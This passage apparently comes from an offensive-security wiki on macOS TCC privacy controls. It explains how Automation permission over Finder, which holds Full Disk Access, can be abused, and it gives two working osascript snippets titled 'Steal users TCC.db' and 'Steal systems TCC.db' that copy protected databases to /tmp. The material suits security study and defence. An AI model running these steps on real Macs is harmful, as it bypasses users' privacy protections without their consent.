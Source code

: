 ### Insert into TCC

If at some point you manage to get write access over a TCC database you can use something like the following to add an entry (remove the comments):

<details><summary>Insert into TCC example</summary></details>

### TCC Payloads

If you managed to get inside an app with some TCC permissions check the following page with TCC payloads to abuse them:

{% content-ref url="macos-tcc-payloads.md" %}
[macos-tcc-payloads.md](macos-tcc-payloads.md)
{% endcontent-ref %}

### Apple Events

Learn about Apple Events in:

{% content-ref url="macos-apple-events.md" %}
[macos-apple-events.md](macos-apple-events.md)
{% endcontent-ref %}

### Automation (Finder) to FDA\*

The TCC name of the Automation permission is: **`kTCCServiceAppleEvents`**\
This specific TCC permission also indicates the **application that can be managed** inside the TCC database (so the permissions doesn't allow just to manage everything).

**Finder** is an application that **always has FDA** (even if it doesn't appear in the UI), so if you have **Automation** privileges over it, you can abuse its privileges to **make it do some actions**.\
In this case your app would need the permission **`kTCCServiceAppleEvents`** over **`com.apple.Finder`**.

{% tabs %}
{% tab title="Steal users TCC.db" %}
```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
    set homeFolder to path to home folder as string
    set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
    set targetFolder to POSIX file "/tmp" as alias
    duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}

{% tab title="Steal systems TCC.db" %}
```applescript
osascript<<EOD
tell application "Finder"
    set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
    set targetFolder to POSIX file "/tmp" as alias
    duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}
{% endtabs %}
